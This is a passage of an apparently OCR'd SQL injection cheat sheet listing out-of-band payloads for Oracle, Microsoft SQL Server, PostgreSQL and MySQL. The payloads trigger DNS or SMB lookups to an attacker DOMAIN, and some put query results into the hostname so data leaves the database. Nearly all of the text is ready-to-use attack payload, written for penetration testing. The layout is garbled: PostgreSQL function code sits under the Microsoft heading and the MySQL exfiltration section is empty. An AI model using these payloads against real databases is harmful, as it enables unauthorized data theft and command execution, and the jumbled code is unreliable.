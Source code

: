 ```sql
select extractvalue(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://DOMAIN/"> %remote;]>'),'/l') from dual
```

```sql
select UTL_INADDR.get_host_address('DOMAIN')
```

2. Microsoft

```sql
exec master..xp_dirtree '//DOMAIN/a' 
```

3. PostgreSQL

```sql
copy (select '') to program 'nslookup DOMAIN'
```

4. MySQL

```sql
load_file('\\\\DOMAIN\\a')
select ... into OUTFILE '\\\\DOMAIN\a'
```

### DNS lookup with data exfiltration

1. Oracle

```sql
select extractvalue(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(select 'test')||'.DOMAIN/"> %remote;]>'),'/l') from dual
```

2. Microsoft

```sql
declare @p varchar(1024);set @p=(SELECT YOUR-QUERY-HERE);exec('master..xp_dirtree "//'+@p+'.DOMAIN/a"')
create OR replace function f() returns void as $$
declare c text;
declare p text;
begin
```

3. PostgreSQL

```sql
SELECT into p (SELECT YOUR-QUERY-HERE);
c := 'copy (SELECT '''') to program ''nslookup '||p||'.DOMAIN''';
execute c;
END;
$$ language plpgsql security definer;
SELECT f();
```

4. MySQL
